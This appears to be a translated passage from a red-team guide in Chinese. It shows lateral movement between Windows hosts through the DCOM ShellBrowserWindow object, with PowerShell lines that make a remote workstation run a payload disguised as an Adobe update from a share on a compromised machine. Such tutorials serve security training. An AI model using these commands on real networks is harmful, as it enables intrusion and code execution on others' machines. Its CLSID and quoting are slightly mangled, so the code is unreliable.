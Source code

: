 ### 利用 DCOM 的横向移动

有许多方法可以在主机上进行单次横向移动。如果泄露的帐户具有访问权限，或者你能够使用捕获的凭据创建令牌，我们可以使用 WMI、PowerShell 远程命令执行或 PSExec 生成不同的 shell。如果这些执行命令的方法受到监控怎么办？我们通过使用分布式组件对象模型（DCOM）实现一些很酷的 Windows 功能。DCOM 是用于在不同远程计算机上的软件组件之间通信的 Windows 功能。

你可以使用 Powershell 命令列出计算机的所有 DCOM 应用程序：GetCimInstance Win32_DCOMApplication

![](../images/chapter_4/4-37.png)

安全研究员 @enigam0x3 的研究发现（ https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/ ），有多个对象（例如 ShellBrowserWindow 和 ShellWindows ）允许在受害者主机上远程执行代码。当列出所有 DCOM 应用程序（如上图所示）时，你将看到一个 CLSI 为 C08AFD90-F2A1-11D1-845500A0C91F3880 的 ShellBrowserWindow 对象。识别出该对象后，只要我们的帐户有权访问，我们就可以利用此功能在远程工作站上执行二进制文件。

- powershell
- $([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“c:\windows\system32\calc.exe”)

这将只在系统本地执行文件，并且我们不能将任何命令行参数包含到可执行文件中（因此不能使用 cmd /k 类型的攻击）。相反，我们可以从远程系统调用文件并执行它们，但请注意，用户将收到警告的弹窗。在本例中，我目前在一个受害者的主机 neil.cyberspacekittens.local 上，该主机可以管理访问一个名为 buzz 的远程工作站。我们将在 Neil 的工作站上共享一个文件夹，并托管我们的 payload。接下来，我们可以调用 DCOM 对象在远程受害者（buzz）计算机上执行托管的 payload。

$([activator]::CreateInstance([type]::GetTypeFromCLSID(“C08AFD90-F2A1-11D1-8455-
00A0C91F3880”，“buzz.cyberspacekittens.local”))).Navigate(“\neil.cyberspacekittens.local\Public\adobeupdate.exe”)

![](../images/chapter_4/4-38.png)

正如你在下一张图片中看到的，Buzz 的计算机上出现了一个关于运行 adobeupdate.exe 文件的弹出窗口。虽然大多数用户都会点击并运行这个，但它可能会让我们被目标察觉。

![](../images/chapter_4/4-39.png)
